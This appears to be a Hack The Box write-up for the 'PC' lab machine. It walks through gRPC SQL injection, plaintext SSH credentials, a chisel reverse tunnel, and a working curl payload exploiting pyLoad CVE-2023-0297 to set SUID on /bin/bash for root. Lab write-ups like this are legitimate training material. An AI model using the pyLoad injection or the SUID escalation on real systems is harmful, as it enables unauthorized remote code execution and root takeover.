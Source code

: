 Nmap reveals a strange port that is open, accessing the webpage does not reveal anything.

```
└──╼ [★]$ nmap -sC -A -T4 -p- -Pn 10.129.85.76
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 20:42 BST
Nmap scan report for 10.129.85.76
Host is up (0.0044s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Attempting to connect to it does give us a hint.
```
└──╼ [★]$ telnet 10.129.85.76 50051
Trying 10.129.85.76...
Connected to 10.129.85.76.
Escape character is '^]'.
?�?� ?@Did not receive HTTP/2 settings before handshake timeoutConnection closed by foreign host.
```

After some googling I learned that it was a grpc server and we can access that by installing the gui.

https://github.com/fullstorydev/grpcui
```
└──╼ [★]$ go install github.com/fullstorydev/grpcui/cmd/grpcui@latest
```
```
└──╼ [★]$ chmod -R 777 go/
```
```
└──╼ [★]$ ./grpcui -plaintext 10.129.94.151:50051
gRPC Web UI available at http://127.0.0.1:32953/
```
After installing and running the program we are greeted with a page.

Using default credentials works but it does not get us anywhere.

![image](https://github.com/Rogue-1/HTB/assets/105310322/1798d19a-54b0-47d8-8efa-4114f991063c)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e08a1923-efe7-4dcc-81f0-d6052dcd9eca)

However in the getinfo section we can see that it may be vulnerable to sql injection based on the errors.

![image](https://github.com/Rogue-1/HTB/assets/105310322/6a096f4e-55c8-41a7-b58a-7a4ca47692dd)

After alot of messing around we finally get some data back with usernames and passwords to log in through ssh as sau - HereIsYourPassword1431

![image](https://github.com/Rogue-1/HTB/assets/105310322/cf957875-1695-4199-b76c-70173edc6386)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e2c71132-d908-40ab-b22d-19e60477e86b)


Login and grab the user flag.

```
└──╼ [★]$ ssh sau@10.129.94.151
sau@10.129.94.151's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)

sau@pc:~$ cat user.txt
474dded2f0348a7c9aacbad64cb7e513
```

After logging in I ran linpeas and noticed port 8000 was open.

Transfer chisel to the victim and run it to access the webpage on our host computer.

```
└──╼ [★]$ chisel server --reverse --port 1234
2023/07/11 22:04:39 server: Reverse tunnelling enabled
2023/07/11 22:04:39 server: Fingerprint izTDIgf3pIe+DypOlVdLmutBd4Tj0fu+cuNRh3rvtyM=
2023/07/11 22:04:39 server: Listening on http://0.0.0.0:1234
2023/07/11 22:04:40 server: session#1: tun: proxy#R:8000=>8000: Listening

sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:04:15 client: Connecting to ws://10.10.14.31:1234
```

We are greeted with a login page for pyload but none of the credentials we have work. Luckily a quick google search for pyload vulnerabilites shows that there is a CVE for it.

![image](https://github.com/Rogue-1/HTB/assets/105310322/010ff159-666f-4e78-a64d-11f764d553d9)

https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

Create a simple priv esc bash script

```
#!/bin/bash

chmod u+s /bin/bash
```

Modify the payload to access your bash script.

Running the script may appear to fail but if you check it you can see that it was successful.

```
└──╼ [★]$ curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/dev/shm/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 11 Jul 2023 21:27:37 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```

```
sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:27:21 client: Connecting to ws://10.10.14.31:1234
2023/07/11 21:27:21 client: Connected (Latency 3.771334ms)
^C2023/07/11 21:27:40 client: Disconnected
2023/07/11 21:27:40 client: Give up
sau@pc:/dev/shm$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```

After everything works out you can grab the root flag!

```
sau@pc:/dev/shm$ bash -p
bash-5.0# cat /root/root.txt
d54654ee************************
```
